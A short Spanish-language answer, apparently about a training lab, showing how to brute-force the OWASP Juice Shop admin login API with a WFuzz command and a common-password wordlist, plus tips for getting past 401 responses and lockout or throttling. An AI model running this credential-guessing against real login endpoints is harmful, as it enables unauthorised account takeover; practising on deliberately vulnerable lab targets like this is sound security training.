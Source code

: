 El límite de Burp Free está en **Intruder**, no permite ataques masivos automáticos. Para un brute-force de API puedes replicar la misma lógica con **WFuzz o Curl + un diccionario**, que no tienen limitaciones. La clave es respetar exactamente el formato JSON que te indica Burp.

Tu ejemplo de Burp usa:

```json
{"email":"admin@juice-sh.op","password":"§§"}
```

En WFuzz lo traduces así:

```bash
wfuzz -c -z file,/usr/share/seclists/Passwords/Common-Credentials/best1050.txt \
-u http://10.201.93.234/rest/user/login \
-H "Content-Type: application/json" \
-H "Accept: application/json" \
-d '{"email":"admin@juice-sh.op","password":"FUZZ"}'
```

* `FUZZ` reemplaza `§§` de Burp.
* `-c` para colores.
* `-z file,<ruta>` carga el diccionario.

Si todas las respuestas siguen siendo **401**, hay que verificar:

1. **Escape correcto del JSON:** en la terminal, usa comillas simples externas y dobles internas.
2. **Headers requeridos:** algunos endpoints necesitan `Accept` o cookies específicas (`io=...`, `continueCode=...`) que Burp captura automáticamente.
3. **Protección anti-brute-force:** throttling, lockout o tokens dinámicos.
